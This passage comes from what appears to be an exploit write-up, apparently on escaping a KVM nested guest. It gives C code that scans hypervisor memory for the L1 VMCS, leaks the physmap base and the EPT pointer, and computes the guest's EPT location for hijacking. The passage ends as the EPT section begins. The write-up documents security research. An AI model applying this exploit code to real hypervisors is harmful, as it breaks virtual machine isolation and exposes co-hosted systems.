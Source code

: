 ```c
        pos_val = read_guy(pos_offset);
        if (pos_val == vmptrld_page_pa && read_guy(pos_offset-2) == vmxon_page_pa) {
            found_val = pos_val;
            found_offset = pos_offset;
            break;
        }
    }
    if (found_val == 0) {
        pr_info("[exp]: L1 VMCS NOT FOUND :(\n");
        *nested_vmx_offset = 0;
        return 0;
    } else {
        pr_info("[exp]: Found vmcs in l1 at offset %lld; value: %llx\n", found_offset, found_val);
        *nested_vmx_offset = found_offset;
        return 1;
    }
}
```

### leaking values

With this we were done with memory scanning!

We were then able to read fields of these two structures to find:
- Where the nested VMCS is in virtual memory, via `cached_vmcs12`
    - We can also apply a bitmask this address to get phsymap base
- The EPTP from the `ept_pointer` field on the `vmcs12` struct we found

```c
    // offset+1 to go from current_vmptr to cached_vmcs12
    l2_vmcs_addr = read_guy(nested_vmx_offset+1);
    pr_info("[exp]: YOU ARE HERE: %llx\n", l2_vmcs_addr);

    physbase = l2_vmcs_addr & ~0xfffffffull;
    pr_info("[exp]: probably physbase: %llx\n", l2_vmcs_addr & ~0xfffffff);

    eptp_value = read_guy(l1_vmcs_offset-50);
    pr_info("[exp]: eptp_value: %llx\n", eptp_value);
```

We calculated the offset to the EPT of the guest we are in using the knowledge of where our nested VMCS is, physmap base, and the EPTP (which is a physical address in the host):
```c
    ept_addr = physbase + (eptp_value & ~0xfffull);
    pr_info("[exp]: ept_addr: %llx\n", ept_addr);

    ept_offset = (ept_addr-l2_vmcs_addr) / 8;
    pr_info("[exp]: ept_offset: %llx\n", ept_offset);
```

### EPT hijacking
With this knowledge we were able to read and write the EPT of the guest, and at this point it was time for me to actually figure out how this EPT stuff works.
